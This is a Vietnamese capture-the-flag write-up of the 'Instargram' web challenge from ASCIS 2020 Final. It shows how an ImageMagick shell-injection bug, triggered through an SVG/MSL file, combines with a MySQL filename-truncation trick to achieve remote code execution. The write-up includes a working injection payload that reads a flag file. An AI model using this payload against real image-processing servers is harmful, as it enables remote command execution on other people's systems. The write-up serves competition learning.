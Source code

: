 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Final] Web02: Instargram"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,php,imagemagick]
---
```


# [ACIS-2020-Final] Sinh viên với An Toàn Thông Tin ASEAN 2020 Final Web Writeup

# Instargram

## Description

- Source: [Instargram](src)
- ImageMagick version: `7.0.10-37`
- Hints:
  1.  `Magic!!!`
  2.  `ducnt / @bcd1234`

![img1](img/img1.png)

## Summary

Website cho phép đăng ký, đăng nhập, thay đổi avatar. Khi thay đổi avatar sẽ gọi đến lệnh `convert` từ system (**Imagemagick**) để chuyển đổi ảnh. Kết hợp lỗi [ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) và **SQL Truncation Attack** khai thác thực thi mã từ xa (**RCE**).

## Analysis

### Upload

Những file upload lên server phải thỏa mãn những yêu cầu, đặc điểm sau:
1. Size <= `500000`
2. Thư mục lưu trữ của mỗi user là bí mật:
  ```php
  function gen_secret_path($username) {
      $secret_path = "images/avatars/".md5(SALT.$username)."/";
      return $secret_path;
  }
  $secret_path = gen_secret_path($username);
  ...
  $target_file = $secret_path . $avatar;
  ```
3. File type phải là: `JPG, JPEG, PNG, SVG && GIF`

### Convert

Khi upload avatar, server sẽ tạo 1 bản copy của file nhằm chuyển đổi sau đó. 
  ```php
    if( $count2 === 1 && $row['username'] === $username) 
    {
        $_prepare_for_convert = $secret_path.$row2['for_convert'];
        copy($target_file, $_prepare_for_convert);
    }
  ```

Tên của file convert này được thêm suffix: `-InStarGram-HackEmAll2020.png`
```php
function watermark($string) {
    return $string."-InStarGram-HackEmAll2020";
}
$_for_convert = trim($filename,".".$extension);
$_for_convert =  $_for_convert.".".$extension.watermark("").".png";
```
- Ví dụ: `shell.php.jpg` -> `shell.php.jpg-InStarGram-HackEmAll2020.png`

Khi đã upload lên server, server sẽ sử dụng **Imagemagick** để chuyển đổi ảnh
```php
  $_orignal_image = $row['for_convert'];
  $_orignal_image = $secret_path.$_orignal_image;
  $_orignal_image = superwaf($_orignal_image);
  $_convert_image = superwaf($_convert_image);
  $_beautify_image = "convert -level 0%,100%,2.0 ".$_orignal_image." ".$_convert_image;
  system($_beautify_image);
```
- *`superwaf()` giúp bảo vệ **Command Injection***
  ```php
  function superwaf($data) {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    $data = escapeshellcmd($data);
    return $data;
  }
  ```

## Exploit

### ImageMagick Bug

- ImageMagick change log:
![img2](img/img2.png)
- Tìm ...  
![img3](img/img3.png)
- Và [đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) là bài phân tích chi tiết lỗi, cũng như cách exploit. Nó được đăng vào **November 21, 2020**. Vậy là đề được lấy cảm hứng từ 1 bug mới được public cách ngày thi 1 tuần ...

**Tóm lược**, ImageMagick cho phép sử dụng mật khẩu khi chuyển đổi PDF thông qua option `-authenticate`. Option này được dùng trong việc gọi một command khác, và nó không được làm sạch an toàn. Đồng nghĩa, việc kiểm soát thành công `-authenticate` sẽ dẫn đến **RCE**. Tuy nhiên điều này không phải lúc nào cũng khả thi (như trong bài này). May mắn thay, ImageMagick còn hỗ trợ **ImageMagick Scripting Language (MSL)** thông qua 1 file input **svg**, có thể truyền thẳng option bên trong nội dung file. Chi tiết hơn có thể xem [tại đây](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

**Quay lại với đề bài**, như vậy, nếu upload 1 file **SVG**, khi server gọi `convert evil.svg whatever.jpg`, thì `$(command)` sẽ được thực thi.

```html
<image authenticate='ff" `echo $(command)`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Tuy nhiên, `for_convert` được thêm suffix `-InStarGram-HackEmAll2020.png` nên không thể upload file **svg** được?

### SQLi Truncation Attack

Độ dài trường **for_convert** là **100**, vì vậy có thể tận dụng để truncate phần suffix của tên file.

```
CREATE TABLE `converts` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(50) DEFAULT NULL,
  `for_convert` varchar(100) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
```

Vậy tên file cần có dạng:
```php
$filename = str_repeat("a",96).".svg"
```

Lúc này, nếu tiến hành chạy reverse shell hay outbound thì sẽ nhận ra server đã chặn. Vậy cần phải extract output command ra đâu đó, ra file? Nhưng chỉ có thư mục upload là có quyền ghi và như đã trình bày, đường dẫn thư mục upload của mỗi user là bí mật.

*Đây cũng là lý do không dùng cách upload file php (dùng truncation attack) để lên shell được*

### Có điều gì đó đã bị bỏ qua ...?

Quay lại source code được cung cấp, tại `images/avatars/`:
![img4](img/img4.png)

**978581028bb6f432c5a3a7694e8dad32** - Một gợi ý của đề để lại, thư mục upload của user **ducnt** với mode `0777`. Như vậy, đã tìm được nơi ghi output của command.

## Final Payload

- Filename: **aa...aa.svg** (length == 100)
- Payload
```html
<image authenticate='ff" `echo $(cat /flag.txt)> ./images/avatars/978581028bb6f432c5a3a7694e8dad32/doublevkay.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:./images/avatars/978581028bb6f432c5a3a7694e8dad32/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.svg" height="100" width="100"/>
  </svg>
</image>
```

Truy cập lại `/account.php` để kích hoạt `convert` và get flag.

![flag](img/flag.png)
![a](img/img5.jpg)

**Flag:**

```ASCIS{amayzing-goodjob-em:https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html-(ft)-mysql-truncation}```

## Không liên quan

Thừa nhận hay không thì mình vẫn là một mắt xích yếu, sr my team!.

Và, yoh, hơi sến xíu nhưng thực sự cảm ơn những người anh đã giúp đỡ em trong chặng đường học cyber sec này, rất ý nghĩa! (và chắc còn dài =)))

Btw, chúc mừng team **HCMUS.Twice** - một chức vô địch xứng đáng. Cuộc thi là một trãi nghiệm rất thú vị, thanks all và ... hẹn gặp lại.
